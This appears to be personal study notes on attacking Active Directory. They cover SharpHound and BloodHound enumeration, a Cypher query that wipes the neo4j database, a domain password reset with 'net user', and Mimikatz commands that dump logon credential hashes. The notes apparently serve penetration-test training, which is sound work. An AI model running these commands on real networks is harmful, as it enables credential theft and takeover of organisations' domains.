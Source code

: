 first import it
```
Import-Module .\Sharphound.ps1
```

to start we net to run Invok-Bloodhound
```
Get-Help Invoke-BloodHound
```

Invoke Sharphound -- data in zip files
```
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```

### BloodHound

first have to start neo4j graph database
neo4j username/password
```
sudo neo4j start
```

now we run
```
bloodhound
```

can run find domain admin and find shortest path to domain admin

need to mark user as owned

reset neo4j for bloodhound
```
MATCH (n) OPTIONAL MATCH (n)-[r]-() DELETE n,r
```

for changing pw in AD, need full username

```
net user steve@corp.com Password123! /domain
```

### AD Authentication
can use Mimikatz to extract domain hashes

```
privilege::debug
sekurlsa::logonpasswords
```

 For AD instances at a functional level of Windows 2003, NTLM is the only available hashing algorithm. For instances running Windows Server 2008 or later, both NTLM and SHA-1 (a common companion for AES encryption) may be available


A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets. 
